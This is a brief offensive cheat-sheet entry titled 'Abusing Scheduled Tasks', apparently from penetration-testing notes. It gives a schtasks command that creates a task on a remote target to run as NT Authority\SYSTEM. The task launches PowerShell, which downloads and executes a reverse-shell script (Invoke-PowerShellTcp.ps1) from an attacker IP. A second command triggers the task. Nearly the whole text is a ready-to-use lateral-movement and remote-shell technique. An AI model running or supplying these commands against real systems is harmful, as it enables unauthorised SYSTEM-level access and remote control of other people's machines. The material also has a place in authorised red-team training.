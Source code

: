  # Abusing Scheduled Tasks
 - Create a Scheduled Task from the CLI to run as System
`schtasks /create /S <targetsystem> /SC Weekly /RU "NT Authority\SYSTEM" /TN "<taskname>" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/Invoke-PowerShellTcp.ps1''')'"`
 - Run a scheduled task from CLI
`schtasks /Run /S <targetsystem> /TN "<taskname>"`